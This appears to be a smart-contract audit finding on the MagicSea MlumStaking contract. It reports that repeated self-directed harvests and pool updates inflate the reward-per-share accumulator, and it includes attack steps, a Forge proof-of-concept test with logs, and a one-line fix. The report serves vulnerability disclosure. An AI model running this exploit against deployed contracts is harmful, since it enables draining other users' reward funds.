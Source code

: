 Curved Mango Turkey

High

# The attacker can drain all rewards of MlumStaking contract

## Summary

## Vulnerability Detail
The attacker can make the variable `_accRewardsPerShare` as much as he wants. The enough big _accRewardsPerShare will make pending rewards enough big which can exceed the total balance of rewards token in MlumStaking contract (the line [678](https://github.com/sherlock-audit/2024-06-magicsea/blob/main/magicsea-staking/src/MlumStaking.sol#L678))

the _accRewardsPerShare is updated via `updatePool()`, whenever rewardBalance > lastRewardBalance
This case can be made by calling _harvestPosition() with `_to = address(this)`.

```solidity
    function _safeRewardTransfer(address _to, uint256 _amount) internal {
        uint256 rewardBalance = rewardToken.balanceOf(address(this));
        if (_amount > rewardBalance) {
743:       _lastRewardBalance = _lastRewardBalance - rewardBalance; 
744:       rewardToken.safeTransfer(_to, rewardBalance);
        } else {
746:      _lastRewardBalance = _lastRewardBalance - _amount;
747:      rewardToken.safeTransfer(_to, _amount);
        }
    }
```

With the line `743, 746` ,_lastRewardBalance is being decreased, but with line 744,747, rewardBalance is not changed.
So enough multiple calling _harvestPostion() with _to = address(this) and updatePool() will make _accRewardsPerShare enough big.

### Attack steps
1. Attacker gets two accounts to stake position
2. with first account, attacker calls harvestPositionTo(positionId, address(this)) and updatePool() multiple times. then _accRewardsPerShare will be increased.
3. with second account, attacker calls harvestPositionTo(positionId, receiver address).

### POC
```solidity
    function testManipulateAccRewardsPerShare() public {
        _rewardToken.mint(address(_pool), 100_000_000);
        _stakingToken.mint(ALICE, 2 ether);
        _stakingToken.mint(BOB, 2 ether);

        vm.startPrank(ALICE);
        _stakingToken.approve(address(_pool), 1 ether);
        _pool.createPosition(1 ether, 30 days);
        vm.stopPrank();

        vm.startPrank(BOB);
        _stakingToken.approve(address(_pool), 1 ether);
        _pool.createPosition(10 ** 10, 30 days);
        vm.stopPrank();

        assertEq(ERC721(address(_pool)).ownerOf(1), ALICE);

        skip(3600);

        vm.startPrank(ALICE);
        uint256 accReward = _pool.getAccReardsPerShare();
        console2.log("getAccReardsPerShare before manipulation: %s", accReward);
        for (uint i = 0; i < 100; i++) {
            _pool.harvestPositionTo(1, address(_pool));
            _pool.updatePool();
        }

        accReward = _pool.getAccReardsPerShare();
        console2.log("getAccReardsPerShare after manipulation: %s", accReward);
        vm.stopPrank();
    }
```
Logs:
  getAccReardsPerShare before manipulation:    85888516705316
  getAccReardsPerShare after manipulation:   8674735763978350

## Impact
The attacker can drain all amount of reward token in contract.

## Code Snippet
https://github.com/sherlock-audit/2024-06-magicsea/blob/main/magicsea-staking/src/MlumStaking.sol#L678
https://github.com/sherlock-audit/2024-06-magicsea/blob/main/magicsea-staking/src/MlumStaking.sol#L574-L591
https://github.com/sherlock-audit/2024-06-magicsea/blob/main/magicsea-staking/src/MlumStaking.sol#L674-L686
https://github.com/sherlock-audit/2024-06-magicsea/blob/main/magicsea-staking/src/MlumStaking.sol#L739-L749

## Tool used

Manual Review, Forge test

## Recommendation
add the following line in `_harvestPostion()` function.

`require(_to != address(this), "");`
